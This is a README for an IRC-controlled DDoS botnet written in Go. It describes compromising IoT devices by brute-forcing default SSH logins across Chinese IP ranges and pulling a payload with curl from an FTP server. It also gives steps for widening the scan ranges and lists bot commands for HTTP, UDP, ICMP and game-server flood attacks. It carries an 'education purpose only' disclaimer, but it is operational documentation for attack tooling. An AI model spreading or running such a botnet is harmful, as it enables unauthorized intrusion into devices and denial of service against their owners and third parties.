


<h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.3.1
This is my first IRC bot for launch ddos attack, Mainly of scan target are IoT device that run linux and open default SSH port, This bot is write on Go language. For education purpose only. Please test it in your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

# Infect
The infect function of this botnet is scanning by default SSH port<strong>(Default are scan on range of CHN network. You can add more or change it, if you want.)</strong>
and login by Brute-force attack. This botnet use "curl" to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range, And comment a function of running session.(That's why bot is not join The server.)</strong>

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_anme = "224.12" //224.12.0.0 - 224.255.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
		or
		case var_name:
				return ManageIP_range(ipRange, "")

(3) Then go to The "SSH_Conn" function, And add your constant ip range to The array name "NetArr".

		NetArr := []string{
			chpn1, chpn2, chpn3, chpn4, chpn5, cgpn1, cgpn2, cgpn3,
			cgpn4, cgpn5, cgpn6, var_name,
		}

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.

# Build payload

# Update Lists

<strong>Fatebot v0.1</strong> = Fatebot open release.

<strong>Fatebot v0.2</strong> = Update get bot system information function and Add tutorial in main and scan file.

<strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to delete when running. And change some IRC commands that will type easier.

<strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)

<strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder not input The size.

<strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      
- Min and Max of Buffer is 1 - 700bytes.

    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood UDP packets by random src port with valve source engine dst port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Kick bot out of The server.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
